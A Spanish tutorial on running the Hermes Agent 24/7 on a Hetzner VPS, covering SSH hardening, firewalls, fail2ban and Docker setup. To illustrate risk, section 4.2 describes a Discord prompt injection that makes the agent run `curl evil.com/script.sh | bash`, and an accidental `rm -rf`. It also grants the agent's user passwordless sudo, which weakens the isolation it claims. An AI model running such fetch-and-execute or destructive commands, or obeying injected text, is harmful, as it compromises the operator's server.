

# Hermes Agent en Hetzner: laboratorio personal de proyectos 24/7

Guía paso a paso para desplegar [Hermes Agent](https://github.com/NousResearch/hermes-agent) (Nous Research) en un VPS de Hetzner, conectado a Discord y usando [OpenRouter](https://openrouter.ai/) como proveedor de modelos, con el objetivo de tener una incubadora personal de prototipos de software funcionando 24/7.

> **Documentación oficial de referencia:** <https://hermes-agent.nousresearch.com/docs>
> **Repositorio:** <https://github.com/NousResearch/hermes-agent>

> **Notas para el lector**
> - Esta guía está pensada para alguien con perfil técnico que sigue los pasos en orden.
> - Cada bloque incluye comandos copiables y, cuando aplica, una marca `📸 [images/NN-nombre.png]` donde irá una captura de pantalla.
> - Si algún paso falla, dilo: la guía se actualiza con cada bloqueo real que encontremos.

---

## Tabla de contenidos

1. [Qué es Hermes Agent y arquitectura objetivo](#1-qué-es-hermes-agent-y-arquitectura-objetivo)
2. [Elegir el VPS de Hetzner](#2-elegir-el-vps-de-hetzner)
3. [Provisionar el servidor](#3-provisionar-el-servidor)
4. [Hardening inicial: usuario, SSH y firewall](#4-hardening-inicial-usuario-ssh-y-firewall)
5. [Instalar Docker y Docker Compose](#5-instalar-docker-y-docker-compose)
6. [Instalar Hermes Agent](#6-instalar-hermes-agent)
7. [Configurar OpenRouter como proveedor](#7-configurar-openrouter-como-proveedor)
8. [Configurar varios modelos para distintas tareas](#8-configurar-varios-modelos-para-distintas-tareas)
9. [Skills de código y backend Docker para ejecución segura](#9-skills-de-código-y-backend-docker-para-ejecución-segura)
10. [Conectar Hermes con Discord](#10-conectar-hermes-con-discord)
11. [Estructura de carpetas para proyectos](#11-estructura-de-carpetas-para-proyectos)
12. [Heartbeats, cron y ejecución desatendida](#12-heartbeats-cron-y-ejecución-desatendida)
13. [Convertir Hermes en servicio systemd 24/7](#13-convertir-hermes-en-servicio-systemd-247)
14. [Despliegue de proyectos generados (Caddy + Docker)](#14-despliegue-de-proyectos-generados-caddy--docker)
15. [Documentación y artículos automáticos por proyecto](#15-documentación-y-artículos-automáticos-por-proyecto)
16. [Flujo completo de ejemplo: de idea en Discord a prototipo desplegado](#16-flujo-completo-de-ejemplo-de-idea-en-discord-a-prototipo-desplegado)
17. [Seguridad, backups y límites](#17-seguridad-backups-y-límites)
18. [Migración a producción (Sliplane, GCP, Azure)](#18-migración-a-producción-sliplane-gcp-azure)
19. [Alternativas si Hermes no encaja](#19-alternativas-si-hermes-no-encaja)
20. [Cómo convertir esto en artículo de Medium](#20-cómo-convertir-esto-en-artículo-de-medium)
21. [Checklist final](#21-checklist-final)

---

## 1. Qué es Hermes Agent y arquitectura objetivo

[Hermes Agent](https://github.com/NousResearch/hermes-agent) es un agente open-source de Nous Research (sucesor de OpenClaw) con:

- **Múltiples gateways de mensajería**: CLI, Discord, Telegram, Slack, WhatsApp, Signal, Home Assistant — todos desde un proceso `hermes gateway`.
- **Compatibilidad con cualquier proveedor OpenAI-compatible**: Nous Portal, **OpenRouter** (200+ modelos), Anthropic, OpenAI, DeepSeek directo, GLM, Kimi, Hugging Face, endpoints locales, etc.
- **Skills auto-creadas y ecosistema [agentskills.io](https://agentskills.io)**.
- **Memoria persistente** con resumen LLM y FTS5.
- **Cron scheduler integrado** para tareas autónomas (heartbeats, reports nocturnos, auditorías).
- **Backends de terminal**: local, **Docker** (sandbox), SSH, Modal, Daytona, Singularity.
- **Delegación a subagentes** con modelo distinto al principal (clave para abaratar costes).

> Refs: [README oficial](https://github.com/NousResearch/hermes-agent/blob/main/README.md), [Quickstart](https://hermes-agent.nousresearch.com/docs/getting-started/quickstart/), [Configuration](https://hermes-agent.nousresearch.com/docs/user-guide/configuration/).

### Arquitectura que vamos a montar

```
┌─────────────────────────────────────────────────────────────┐
│                      Hetzner VPS (Linux)                    │
│                                                             │
│  ┌─────────────┐   ┌──────────────────────────────────┐     │
│  │  Discord    │──▶│  hermes gateway  (systemd)       │     │
│  │  (tu cliente)│   │  ────────────────────────────── │     │
│  └─────────────┘   │  hermes core agent               │     │
│                    │   ├─ OpenRouter (DeepSeek V4 …)  │     │
│                    │   ├─ Memory (~/.hermes/data)     │     │
│                    │   ├─ Skills (~/.hermes/skills)   │     │
│                    │   └─ Cron / Heartbeats           │     │
│                    └──────┬────────────────────┬──────┘     │
│                           │ terminal.backend   │            │
│                           │ = docker           │            │
│                           ▼                    ▼            │
│   /home/hermes/projects/proyecto-A   /home/hermes/projects/proyecto-B
│   ├─ docker-compose.yml              ├─ docker-compose.yml  │
│   ├─ src/                            ├─ src/                │
│   ├─ README.md                       ├─ README.md           │
│   └─ ARTICLE.md                      └─ ARTICLE.md          │
│                                                             │
│   ┌──────────────────────────────────────────────────┐      │
│   │  Caddy (reverse proxy + HTTPS automático)        │      │
│   │  proyecto-a.tu-dominio.com → contenedor A:8080   │      │
│   │  proyecto-b.tu-dominio.com → contenedor B:3000   │      │
│   └──────────────────────────────────────────────────┘      │
└─────────────────────────────────────────────────────────────┘
```

---

## 2. Elegir el VPS de Hetzner

Precios actualizados al ajuste del **1 abril 2026** ([fuente](https://docs.hetzner.com/general/infrastructure-and-availability/price-adjustment/)). Todos los planes incluyen 20 TB de tráfico, 1 IPv4, IPv6 y firewall gratuito.

| Plan       | vCPU | RAM   | Disco  | Precio/mes | Recomendado para |
|------------|------|-------|--------|------------|------------------|
| CX22       | 2    | 4 GB  | 40 GB  | ~3,79 €    | Hermes solo, 1-2 contenedores chicos |
| **CX32**   | **4**| **8 GB**| **80 GB** | **~6,80 €** | **★ Sweet spot: Hermes + 4-6 prototipos Docker** |
| CX42       | 8    | 16 GB | 160 GB | ~16,40 €   | Si planeas correr modelos locales o muchos servicios |
| CAX21 (ARM)| 4    | 8 GB  | 80 GB  | ~6 €       | Igual que CX32 si tus stacks son ARM-friendly |

**Recomendación:** empieza con **CX32** (Ubuntu 24.04 LTS, datacenter Falkenstein o Helsinki). Es trivialmente escalable a CX42 sin reinstalar (Hetzner permite redimensionar en caliente).

> ⚠️ CX y CAX solo están en datacenters de la UE. Si necesitas EE.UU. o Singapur, usa CPX o CCX.

📸 [images/02-hetzner-plans.png] *(captura del comparador de planes)*

---

## 3. Provisionar el servidor

### 3.1. Crea la cuenta y un proyecto

1. Ve a <https://console.hetzner.cloud/> y crea cuenta. Pide validación con tarjeta o PayPal (Hetzner activa cuentas en minutos pero a veces pide ID los primeros días).
2. Crea un nuevo **Project** (ej. `Hermes`).

📸 [images/03-hetzner-project.png]

### 3.2. Sube tu clave SSH

Antes de crear el servidor genera (en tu máquina local) una clave dedicada. **Importante:** usa la sintaxis adecuada según tu sistema operativo — la expansión de `~` no funciona igual en PowerShell que en bash.

#### En Linux / macOS / WSL / Git Bash

```bash
ssh-keygen -t ed25519 -C "hetzner-hermes" -f ~/.ssh/hetzner_hermes
```

#### En Windows PowerShell

PowerShell no siempre expande `~`. Usa `$HOME` y backslashes:

```powershell
# Asegura que existe la carpeta .ssh (idempotente)
New-Item -ItemType Directory -Path $HOME\.ssh -Force | Out-Null

# Genera la clave
ssh-keygen -t ed25519 -C "hetzner-hermes" -f $HOME\.ssh\hetzner_hermes
```

> Si te aparece `Saving key "~/.ssh/hetzner_hermes" failed: No such file or directory`, es exactamente este problema: `~` no se está expandiendo. Usa `$HOME` como arriba.
>
> Si te aparece `'ssh-keygen' is not recognized`, falta el cliente OpenSSH. Instálalo desde PowerShell **como administrador** con: `Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0` y abre una sesión nueva.

#### Verifica que las dos claves se han creado

```powershell
# PowerShell
Get-ChildItem $HOME\.ssh\hetzner_hermes*
```

```bash
# bash
ls -la ~/.ssh/hetzner_hermes*
```

Debes ver dos archivos:

- `hetzner_hermes` → **clave privada** (queda en tu portátil; no se sube a ningún sitio).
- `hetzner_hermes.pub` → **clave pública** (la que pegas en Hetzner).

#### Copia la pública al portapapeles

```powershell
# PowerShell
Get-Content $HOME\.ssh\hetzner_hermes.pub | Set-Clipboard
```

```bash
# macOS
pbcopy < ~/.ssh/hetzner_hermes.pub

# Linux con xclip
xclip -selection clipboard < ~/.ssh/hetzner_hermes.pub
```

#### Pégala en Hetzner

Consola Hetzner → **Security → SSH Keys → Add SSH Key**, pega el contenido y dale un nombre identificativo (`hetzner-hermes-laptop`, por ejemplo).

📸 [images/04-hetzner-ssh-key.png]

> ⚠️ **Importante:** las claves del panel de Hetzner solo se inyectan cuando **creas un servidor nuevo**. Si ya tienes el servidor creado y subes una clave nueva al panel, **no se propaga al servidor existente**. En ese caso tienes que añadirla manualmente al `~/.ssh/authorized_keys` del usuario en el VPS:
>
> ```powershell
> # desde tu portátil — añade tu clave pública al authorized_keys del VPS en una sola línea
> Get-Content $HOME\.ssh\hetzner_hermes.pub | ssh hermes@SERVER_IP "cat >> ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys"
> ```
>
> Asume que `hermes` ya existe (paso 4.2 hecho) y que entras con alguna otra clave válida. Si todavía no has hecho el paso 4 y quieres probar con root, sustituye `hermes` por `root` en el comando.

### 3.3. Crea el servidor

En la pantalla **Add Server** rellena solo lo siguiente:

| Campo | Valor | Notas |
| ----- | ----- | ----- |
| **Location** | Falkenstein (FSN1) o Helsinki (HEL1) | Cualquier datacenter UE vale |
| **Image** | Ubuntu 24.04 | LTS, soporte hasta 2029 |
| **Type** | CX32 (Shared vCPU · x86) | Pestaña "Shared vCPU" |
| **Networking → Public IPv4** | ✅ **ACTIVADO** | ~0,50 €/mes extra. **Necesario** porque muchos ISP residenciales no rutan IPv6 — sin IPv4 tu propio navegador puede no llegar a tus prototipos |
| **Networking → Public IPv6** | ✅ activado (gratis) | Déjalo activo |
| **Networking → Private networks** | (vacío) | Solo si quieres LAN entre varios servidores Hetzner |
| **SSH Keys** | ✅ tu clave del paso 3.2 | Crítico: si no marcas ninguna, Hetzner manda password por email |
| **Volumes** | (vacío) | El disco de 80 GB del CX32 ya basta |
| **Firewalls** | (vacío) | Lo creamos en el paso 4.4 |
| **Backups** | ✅ activar | +20% del precio (~1,36 €). Snapshots diarios, 7 retenciones. Recomendado |
| **Placement groups** | ❌ omitir | Solo sirve para distribuir varios servidores en hardware distinto. No aplica a 1 VPS |
| **Labels** | ❌ omitir | Tags opcionales para agrupar recursos en proyectos grandes. Innecesario aquí |
| **Cloud config / User data** | ❌ omitir | Sería un script `cloud-init` para auto-provisión. Lo hacemos a mano en el paso 4 |
| **Name** | `hermes-lab` | |

Pulsa **Create & Buy now**.

📸 [images/05-hetzner-create-server.png]

Anota la **IP pública IPv4** que aparece tras unos segundos (la usaremos como `SERVER_IP`).

### 3.4. Primer login

Desde tu máquina local:

```bash
ssh -i ~/.ssh/hetzner_hermes root@SERVER_IP
```

Acepta la huella. Si entra, todo bien.

---

## 4. Hardening inicial: usuario, SSH y firewall

### 4.1. Actualiza el sistema e instala dependencias base

Estos paquetes son **dependencias del sistema operativo**, no de Hermes. Cubren tres cosas: seguridad, parcheo automático y herramientas comunes que Docker y otros instaladores asumen.

```bash
apt update && apt upgrade -y
apt install -y ufw fail2ban unattended-upgrades curl git build-essential ca-certificates gnupg lsb-release htop
dpkg-reconfigure -plow unattended-upgrades   # acepta los defaults
```

**Qué hace cada paquete y por qué lo necesitas:**

| Paquete | Para qué sirve | ¿Imprescindible? |
| ------- | -------------- | ---------------- |
| `ufw` | Firewall a nivel de host (paso 4.4) | Sí |
| `fail2ban` | Banea IPs tras N intentos fallidos de SSH (paso 4.5) | Sí |
| `unattended-upgrades` | Aplica parches de seguridad automáticamente sin tocar nada | Sí (lab 24/7) |
| `curl` | Descarga el instalador de Hermes y la GPG key de Docker | Sí |
| `git` | **Única dependencia "manual" que Hermes pide explícitamente.** El resto las gestiona el `install.sh` | Sí |
| `build-essential` | gcc/make: necesario si alguna skill compila código nativo | Recomendado |
| `ca-certificates` | Certificados raíz para HTTPS (Docker repo, OpenRouter) | Sí |
| `gnupg`, `lsb-release` | Verificar firmas y detectar versión Ubuntu (Docker repo) | Sí |
| `htop` | Monitor interactivo de procesos | Comodidad |

#### ¿Y las dependencias de Hermes en sí?

**No instales Python, Node, uv, ripgrep ni ffmpeg manualmente.** El instalador oficial (`scripts/install.sh`, paso 6) los provisiona en un entorno aislado para evitar choques con paquetes del sistema. Concretamente, según la [docu oficial de instalación](https://hermes-agent.nousresearch.com/docs/getting-started/installation):

- **uv** (gestor de paquetes Python ultrarrápido)
- **Python 3.11** dentro de un venv aislado
- **Node.js v22** (necesario para skills basadas en npm y para `agent-browser` del paso 9.4)
- **ripgrep** (búsquedas FTS en código)
- **ffmpeg** (conversión de audio para voice mode)

Para diagnosticar o reparar dependencias después de la instalación, usa:

```bash
hermes doctor       # diagnóstico completo (te dice qué falta y cómo arreglarlo)
hermes update       # vuelve a tirar del install.sh y actualiza todo
```

> Hermes **no** tiene un comando `hermes deps install` separado: la gestión de dependencias está incorporada en el propio `install.sh` y en `hermes update`. Refs: [Installation](https://hermes-agent.nousresearch.com/docs/getting-started/installation), [CLI Reference](https://hermes-agent.nousresearch.com/docs/reference/cli-commands).

### 4.2. Crea un usuario no-root para Hermes

Hermes debe vivir en su propio usuario (no root) para limitar daño en caso de **RCE accidental**.

> **¿Qué es un RCE accidental?**
>
> RCE = *Remote Code Execution* (ejecución remota de código). En este contexto NO es un atacante explotando una vulnerabilidad: es **el propio agente** ejecutando un comando que no debía. Ejemplos reales que pasan en agentes LLM:
>
> - El modelo malinterpreta una instrucción y hace `rm -rf ~/proyectos` pensando que limpia un build.
> - Un usuario en Discord lanza un *prompt injection* dentro de una URL y Hermes acaba ejecutando `curl evil.com/script.sh | bash`.
> - Una skill mal escrita (o auto-generada por el propio agente) entra en un bucle que escribe en `/etc/`.
>
> Si Hermes vive como `root`, cualquiera de esos errores compromete todo el servidor: borra el sistema, modifica `/etc/sudoers`, lee `/root/.ssh/`, etc. Como usuario `hermes` sin acceso a archivos del sistema, el "explosion radius" se queda en `/home/hermes/`. Es la primera línea de defensa: **menos privilegios = menos daño cuando algo va mal**.

```bash
adduser --disabled-password --gecos "" hermes
usermod -aG sudo hermes
mkdir -p /home/hermes/.ssh
cp /root/.ssh/authorized_keys /home/hermes/.ssh/
chown -R hermes:hermes /home/hermes/.ssh
chmod 700 /home/hermes/.ssh
chmod 600 /home/hermes/.ssh/authorized_keys
```

Concede sudo sin password (cómodo para automatizaciones; si prefieres con password, salta este bloque):

```bash
echo "hermes ALL=(ALL) NOPASSWD:ALL" > /etc/sudoers.d/hermes
chmod 440 /etc/sudoers.d/hermes
```

### 4.3. Endurece SSH

#### ¿Para qué sirve "endurecer SSH"?

Tu VPS está en Internet pública, con una IPv4 fija. Desde el segundo en que se enciende, **bots automatizados** empiezan a probar logins por SSH (puerto 22) intentando contraseñas comunes (`root/123456`, `admin/admin`, …) o claves filtradas. No es paranoia: si miras `/var/log/auth.log` a las pocas horas de crear el servidor, verás cientos de intentos.

"Endurecer SSH" significa cambiar la configuración por defecto del demonio (`sshd`) para que esos intentos automatizados ni siquiera tengan opción. Con la config que vamos a aplicar, un bot que intente `ssh root@tu-ip` recibe rechazo inmediato sin llegar a probar password.

#### ¿Es necesario? ¿Te limita?

- **¿Es necesario?** Sí, **especialmente** porque vamos a tener un agente con acceso a Docker y al filesystem corriendo 24/7. Una sola contraseña débil filtrada y pierdes todo.
- **¿Te limita?** Mínimamente, y solo si pierdes tu clave SSH. La tabla de abajo desglosa cada línea con su trade-off real.

#### Paso 1 — Escribe la configuración (todavía sin aplicar)

Esto solo crea el archivo. Hasta que no reinicies `ssh` (paso 3) la config nueva no entra en vigor, así que no hay riesgo de quedarte fuera todavía.

```bash
cat > /etc/ssh/sshd_config.d/99-hardening.conf <<'EOF'
PermitRootLogin no
PasswordAuthentication no
PubkeyAuthentication yes
KbdInteractiveAuthentication no
ChallengeResponseAuthentication no
MaxAuthTries 3
LoginGraceTime 20
AllowUsers hermes
EOF
```

Valida la sintaxis antes de aplicar:

```bash
sshd -t && echo "OK config" || echo "ERROR: revisa el archivo"
```

Si sale `ERROR`, corrige el archivo antes de seguir. `sshd -t` no toca nada, solo valida.

#### Qué hace cada línea (y qué limitación introduce)

| Directiva | Qué hace | ¿Te limita? |
| --------- | -------- | ----------- |
| `PermitRootLogin no` | Bloquea el login directo como `root` por SSH. Para tareas privilegiadas, entras como `hermes` y usas `sudo`. | No: en el paso 4.2 ya diste sudo NOPASSWD a `hermes`. Cualquier cosa que harías como root, la haces con `sudo` |
| `PasswordAuthentication no` | Desactiva el login con contraseña. Solo se acepta clave SSH. | **Sí, parcialmente**: si pierdes la clave privada `~/.ssh/hetzner_hermes`, **no puedes entrar por SSH**. Mitigación: la consola web de Hetzner (Rescue mode) sigue funcionando con la contraseña root del email; desde ahí puedes resetear claves. **Nunca te quedas fuera del todo** |
| `PubkeyAuthentication yes` | Activa explícitamente login por clave pública (es el default, pero lo dejamos explícito). | No |
| `KbdInteractiveAuthentication no` | Desactiva el método de auth interactivo (PAM, OTP por teclado…). | No, salvo que quisieras montar 2FA con `google-authenticator`. Si en el futuro lo quieres, esto se pone a `yes` |
| `ChallengeResponseAuthentication no` | Alias antiguo del anterior, lo dejamos explícito por compatibilidad. | No |
| `MaxAuthTries 3` | Cierra la conexión tras 3 intentos fallidos (en lugar del default 6). Combinado con `fail2ban`, banea la IP. | Solo si te equivocas tecleando 3 veces — vuelves a conectar y reinicia el contador |
| `LoginGraceTime 20` | Si no completas el login en 20 segundos, cierra. (Default: 120s.) Reduce ventana para ataques de fuerza bruta lentos. | No: 20 s es de sobra para una conexión legítima con clave |
| `AllowUsers hermes` | **Whitelist explícita**: solo el usuario `hermes` puede abrir sesión SSH. Aunque crees otro usuario en el sistema, no podrá entrar por SSH a menos que lo añadas aquí. | Solo si más adelante creas más usuarios para SSH (p.ej. un compañero). Editas esta línea: `AllowUsers hermes alice bob` y `systemctl restart ssh` |

#### Lo que **NO** estamos cambiando

- **Puerto:** seguimos en el 22. Cambiarlo a 2222 reduce ruido en logs (los bots escanean primero el 22) pero **no añade seguridad real**: un atacante serio escanea todos los puertos. Lo dejamos en 22 para que cualquier cliente SSH funcione sin `-p`.
- **2FA:** opcional para más adelante. Con clave SSH + fail2ban + `MaxAuthTries 3` ya estás muy por encima del 99 % de servidores en Internet.

#### Paso 2 — Prepara una sesión de seguridad (ANTES de aplicar)

> ⚠️ **No cierres la sesión root actual.** Va a ser tu red de seguridad por si la nueva config tiene algún problema. Hasta que verifiques que el login con `hermes` funciona, **mantén abierta la terminal donde estás como root**.

#### Paso 3 — Aplica la nueva config

Ahora sí, recarga `sshd` (`reload` aplica la nueva config sin matar las conexiones SSH ya abiertas, así que tu sesión root sigue viva):

```bash
systemctl reload ssh
```

> Si tu sistema solo tiene `restart` y no `reload`, usa `systemctl restart ssh`. Las conexiones SSH activas suelen sobrevivir a un restart porque el demonio solo se reinicia para nuevas conexiones, pero `reload` es la opción segura por defecto.

#### Paso 4 — Verifica desde otra terminal

En tu **máquina local**, abre una terminal nueva (sin cerrar la del VPS) y prueba:

```bash
ssh -i ~/.ssh/hetzner_hermes hermes@SERVER_IP
```

- ✅ **Si entra como `hermes`** → la config nueva funciona. Ahora sí puedes cerrar la sesión root original.
- ❌ **Si falla** → vuelve a la sesión root (que sigue abierta) y arregla el archivo `/etc/ssh/sshd_config.d/99-hardening.conf` o las claves en `/home/hermes/.ssh/authorized_keys`. Tras corregir, repite `sshd -t` y `systemctl reload ssh`.

#### Si te quedas fuera (plan B)

Cuando pasa lo peor (perdiste la clave, te equivocaste en `AllowUsers`, etc.):

1. Ve a la consola Hetzner → tu servidor → **Rescue → Activate Rescue System** (Linux 64).
2. Reinicia el VPS desde el panel.
3. Conecta vía la **consola web** (botón "Console") con la password root que Hetzner te muestra.
4. Monta el disco (`mount /dev/sda1 /mnt`) y arregla `/mnt/etc/ssh/sshd_config.d/99-hardening.conf` o `/mnt/home/hermes/.ssh/authorized_keys`.
5. Desactiva el rescue mode y reinicia normal.

Vamos: **endurecer no te encierra**, te obliga a tener tu clave SSH organizada.

---

> ### 🔁 Cambio de usuario: a partir de aquí trabajas como `hermes`
>
> Si verificaste el paso 4.3.4 con éxito, **cierra la sesión root** y conéctate como `hermes`:
>
> ```bash
> # en tu máquina local
> ssh -i ~/.ssh/hetzner_hermes hermes@SERVER_IP
> ```
>
> Todos los comandos de aquí en adelante (4.4, 4.5, 5, 6…) los ejecutas como `hermes` con `sudo` cuando hagan falta privilegios. Ya configuramos `sudo NOPASSWD` en el paso 4.2, así que `sudo` no te pedirá contraseña.

### 4.4. Firewall (UFW + Hetzner Cloud Firewall)

**Doble capa**: UFW dentro del VPS + Cloud Firewall en el panel.

#### Antes de tocar nada: ¿qué puerto necesita cada cosa?

Es habitual asumir que cada servicio que usa el VPS necesita un puerto abierto. **No es verdad** para servicios *salientes*. Las conexiones que el VPS inicia hacia fuera (Discord, OpenRouter, GitHub, npm, apt…) **no requieren ningún puerto abierto en tu firewall** — el firewall solo regula tráfico entrante. Por eso `ufw default allow outgoing` deja salir todo sin lista blanca.

| Servicio | Tipo | ¿Puerto en tu firewall? |
| -------- | ---- | ----------------------- |
| Tú haciendo SSH al VPS | Entrante (tú → VPS, puerto 22) | **Sí: 22** |
| Tú abriendo `https://miprototipo.lab.dom` en el navegador | Entrante (visitante → Caddy, puertos 80/443) | **Sí: 80 y 443** |
| Hermes hablando con Discord (recibiendo y enviando mensajes) | **Saliente** (VPS → `gateway.discord.gg:443` por WebSocket) | **No** |
| Hermes llamando a OpenRouter | Saliente (VPS → `openrouter.ai:443`) | **No** |
| Hermes haciendo `git pull`, `apt`, `npm install` | Saliente | **No** |
| Hermes spawneando contenedores Docker | Local entre procesos | **No** |

> Resumen: **Discord no necesita que abras nada**. El bot es un cliente; Discord nunca inicia conexiones hacia tu VPS.

Por tanto, lo que de verdad tienes que decidir es **quién puede llegar al puerto 22 desde Internet**.

#### El puerto 22: lo abrimos a todo Internet

`Source: 0.0.0.0/0, ::/0` para SSH. Sí, suena agresivo, pero es la opción correcta para tu caso (WiFi de casa con IP dinámica del router) **porque el endurecimiento del paso 4.3 ya hace inútiles los intentos de fuerza bruta**:

- `PasswordAuthentication no` → no hay contraseña que adivinar.
- `PubkeyAuthentication yes` con clave Ed25519 → ~256 bits de seguridad, irrompible en la práctica.
- `AllowUsers hermes` → solo un usuario es siquiera elegible.
- `MaxAuthTries 3` + `fail2ban` → cualquier IP que insista queda baneada.

Los bots de Internet seguirán golpeando el puerto 22 (verás los intentos en `/var/log/auth.log`), pero saldrán expulsados antes de hacer nada útil. Es lo que hace la mayoría de servidores Linux en Internet y es perfectamente razonable para un lab personal. Las alternativas (restringir a tu IP — imposible sin IP fija; o montar Tailscale — extra de setup) son mejoras opcionales, no requisitos.

#### Aplicar UFW (dentro del VPS)

`sudo` necesario porque toca reglas del kernel:

```bash
sudo ufw default deny incoming
sudo ufw default allow outgoing
sudo ufw allow 22/tcp
sudo ufw allow 80/tcp
sudo ufw allow 443/tcp
sudo ufw --force enable
sudo ufw status verbose
```

#### Aplicar Cloud Firewall (panel Hetzner)

Hetzner panel → **Firewalls → Create Firewall** → nombre `hermes-lab-fw`. Crea **3 reglas Inbound**, una por cada puerto:

| Description | Sources                  | Protocol | Port | Port range  |
| ----------- | ------------------------ | -------- | ---- | ----------- |
| `SSH`       | **Any IPv4 + Any IPv6**  | TCP      | 22   | (vacío)     |
| `HTTP`      | **Any IPv4 + Any IPv6**  | TCP      | 80   | (vacío)     |
| `HTTPS`     | **Any IPv4 + Any IPv6**  | TCP      | 443  | (vacío)     |

> ⚠️ **Atención al formulario de Hetzner**:
>
> - **Sources** son las IPs origen. Pulsa el desplegable y marca los preset **Any IPv4** y **Any IPv6** (equivale internamente a `0.0.0.0/0` y `::/0`, pero en la UI selecciónalos por nombre).
> - **Port** es para un puerto único. Pon `22`, `80` o `443`.
> - **Port range** se deja **vacío**. Solo se usa para rangos como `8000-8100`. Si pegas IPs ahí, Hetzner devuelve `Port is too low`.

#### La regla ICMP que viene por defecto: déjala

Hetzner crea automáticamente una cuarta regla `Protocol: ICMP, Sources: Any IPv4 + Any IPv6`. **Mantenla**. ICMP no es un puerto de servicio, es el protocolo de control de red:

- Hace que `ping` y `traceroute` funcionen (diagnóstico básico cuando algo falla).
- Soporta **Path MTU Discovery**, sin la cual conexiones por VPN o redes con MTU pequeño se cuelgan en silencio al transferir archivos grandes.
- En IPv6, ICMPv6 incluye Neighbor Discovery y Router Advertisement: si lo bloqueas, **IPv6 deja de funcionar**. No es opcional.

El riesgo de dejarlo abierto es mínimo (un atacante puede verificar que el host está vivo, pero tu IP ya es pública igualmente) y los floods los absorbe la protección DDoS de Hetzner antes de llegar al VPS.

> **¿Por qué la regla ICMP no tiene puerto?** Los puertos son un concepto de TCP/UDP. ICMP identifica los mensajes por "type" y "code" (echo request, echo reply, destination unreachable…), no por puerto. Hetzner deshabilita los campos Port y Port range automáticamente cuando seleccionas `Protocol: ICMP`. Es correcto que estén vacíos.

Aplica la firewall al servidor `hermes-lab` en la pestaña **Apply to** del propio firewall.

📸 [images/06-hetzner-firewall.png]

> No abras puertos de aplicaciones (3000, 8080, etc.). Caddy hará el reverse proxy en 80/443.

### 4.5. Fail2ban

Activa la jail por defecto para SSH:

```bash
sudo systemctl enable --now fail2ban
sudo fail2ban-client status sshd
```

> ⚠️ **Aviso importante durante el setup inicial:** mientras estés probando claves SSH y autenticación, es muy fácil dispararte 5+ intentos fallidos seguidos y que fail2ban **te banee tu propia IP de casa**. Síntoma típico: ping al servidor funciona, pero `ssh` y `Test-NetConnection -Port 22` dan timeout aunque las firewalls estén OK.
>
> Si te pasa, entra por la Consola web de Hetzner (panel → servidor → botón Console) y desbanea:
>
> ```bash
> sudo fail2ban-client status sshd          # ver IPs baneadas
> sudo fail2ban-client unban --all          # desbanear todo
> ```
>
> Para evitarlo del todo durante la configuración inicial, mantén fail2ban parado y actívalo al final del paso 4:
>
> ```bash
> sudo systemctl stop fail2ban              # mientras configuras
> # … cuando todo funciona estable …
> sudo systemctl start fail2ban
> ```
>
> O whitelistea tu IP en `/etc/fail2ban/jail.local`:
>
> ```bash
> sudo tee /etc/fail2ban/jail.local <<'EOF'
> [DEFAULT]
> ignoreip = 127.0.0.1/8 ::1 TU_IP_PUBLICA
> EOF
> sudo systemctl restart fail2ban
> ```
>
> (Saca tu IP pública con `Invoke-RestMethod ifconfig.me` desde PowerShell.)

---

## 5. Instalar Docker y Docker Compose

### ¿Por qué instalamos Docker si Hermes no lo pide?

En el paso 4.1 dije que la única dependencia manual de Hermes es `git`, y es cierto: el `install.sh` se encarga de Python/Node/uv/ripgrep/ffmpeg en un entorno aislado. **Pero Docker no es una dependencia de Hermes**, es una dependencia de la **arquitectura que estamos montando**. Lo necesitamos por tres razones, todas decididas en pasos posteriores:

| Para qué | Definido en | Sin Docker |
| -------- | ----------- | ---------- |
| **Sandbox de ejecución del agente** (`terminal.backend: docker`) | Paso 9.1 | Hermes ejecutaría comandos directamente en el host. Pierdes la primera capa de aislamiento que justifica `approvals.mode: off` |
| **Reverse proxy con HTTPS automático** (Caddy) | Paso 14 | No tienes subdominios HTTPS para los prototipos |
| **Cada prototipo generado por Hermes** | Paso 14 | Cada proyecto contaminaría dependencias del sistema; sin aislamiento entre prototipos |

Si decidieras renunciar a las tres cosas (`terminal.backend: local`, sin Caddy, ejecutar prototipos directamente en host), podrías saltarte esta sección. **No lo recomiendo** para un lab 24/7 — es lo que diferencia "tengo un agente jugando con mi servidor" de "tengo una incubadora aislada de proyectos".

### ¿Y no debería correr Hermes mismo dentro de Docker?

Es una alternativa válida y la [docu oficial de Hermes en Docker](https://hermes-agent.nousresearch.com/docs/user-guide/docker). Existe una imagen oficial `nousresearch/hermes-agent:latest`.

**Ventajas** de la opción containerizada: actualizaciones triviales (`docker pull && docker compose up -d`), aislamiento total del host, todo el estado en un único volumen `/opt/data`.

**Por qué nuestra guía va con instalación nativa:**

- Más fácil de debuggear (logs directos, `hermes doctor`, `hermes update` funcionan sin saltos de contenedor).
- Acceso directo al filesystem del host para los volúmenes de proyectos sin "Docker dentro de Docker".
- El servicio systemd del paso 13 envuelve el binario nativo, lo que da control fino sobre límites de recursos.
- Es lo que hace el [Quickstart oficial](https://hermes-agent.nousresearch.com/docs/getting-started/quickstart/).

Si en el futuro quieres migrar a Hermes containerizado, los datos de `~/.hermes/` son portables: solo necesitas montarlos en `/opt/data` del contenedor.

### Instalar Docker (oficial)

Sigues como `hermes`. Instala Docker desde el repo oficial:

```bash
sudo install -m 0755 -d /etc/apt/keyrings
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg
sudo chmod a+r /etc/apt/keyrings/docker.gpg

echo "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.gpg] \
  https://download.docker.com/linux/ubuntu $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null

sudo apt update
sudo apt install -y docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin

sudo usermod -aG docker hermes
```

#### Aplicar la pertenencia al grupo `docker`

`usermod -aG docker hermes` añade tu usuario al grupo `docker`, pero **los grupos solo se cargan al iniciar sesión**: la sesión SSH actual sigue sin verlo. Comprueba el estado primero:

```bash
groups        # te lista los grupos de la sesión actual
id -nG hermes # los grupos REALES del usuario en /etc/group
```

